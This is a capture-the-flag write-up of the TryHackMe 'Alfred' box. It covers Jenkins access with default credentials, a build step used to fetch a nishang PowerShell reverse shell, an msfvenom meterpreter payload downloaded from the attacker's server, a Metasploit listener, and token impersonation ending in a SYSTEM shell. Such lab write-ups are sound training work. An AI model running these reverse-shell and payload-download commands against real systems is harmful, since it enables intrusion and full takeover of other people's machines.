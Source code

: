```yaml
---
title: Alfred
tags: 
- writeups
---
```


## Initial Foothold
![[write-ups/images/Pasted image 20220820235756.png]]

On `8080` I tried `admin:admin` and we are in due to default credentials. 
![[write-ups/images/Pasted image 20220820230201.png]]

Browsing a little bit the application, I found out that I can create a `New Item` as `Freestyle Project`
![[write-ups/images/Pasted image 20220820230609.png]]

Then we're prompted to configure it. Under `Build` we can `add build step` & execute a windows batch command
![[write-ups/images/Pasted image 20220820230713.png]]

I'm going to use the [nishang reverse powershell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get a connection back. So we need to download the `ps1` script on the target machine & execute `Invoke-PowerShellTcp`
- start http server to serve the `revsh.ps1` file: `python -m http.server 8080`
- add our payload in `Build`, apply & save
	- ![[write-ups/images/Pasted image 20220820232112.png]]
- start listener & `Build now`
	- ![[write-ups/images/Pasted image 20220820232228.png]]


### Stabilize shell
- use `msfvenom` to create a meterpreter revshell: `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.12.227 LPORT=1234 -f exe -o msh.exe`
- transfer file on target: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.12.227:8080/msh.exe','msh.exe')"`
- setup listener: `use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.18.12.227; set LPORT 1234; run`
- execute: `Start-Process "msh.exe"`

## Privesc
Since the box starts with an introduction on [Access Tokens](Access Tokens.md), we most definitely need to perform a [token Impersonation attack](Token Impersonation.md). 
- so I took a look @ my privileges
	- ![[write-ups/images/Pasted image 20220820233928.png]]
- then went back to my meterpreter & `load incognito` which will load the modules required to impersonate another users token
	- ![[write-ups/images/Pasted image 20220821034159.png]]
- now we can list all the available tokens
	- ![[write-ups/images/Pasted image 20220820234629.png]]
- going forward, we want to impersonate the `BUILTIN\Administrators` token, list the available processes & migrate to something owned by `NT AUTHORITY\SYSTEM` in order to get a privileged shell. In this case I choose [lsass.exe](lsass.exe (Local Security Authority Subsystem Service).md)
	- ![[write-ups/images/Pasted image 20220820234648.png]]
	- ![[write-ups/images/Pasted image 20220820234706.png]]
	- ![[write-ups/images/Pasted image 20220820234722.png]]


## Refs
- [Abusing Token Privileges for LPE](https://www.exploit-db.com/papers/42556)
- [Token Impersonation Notes](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/access-token-manipultion/token-impersonation)

## See Also
- [[write-ups/THM]]
- [[Access Tokens]]
- [[sheets/Token Impersonation]]
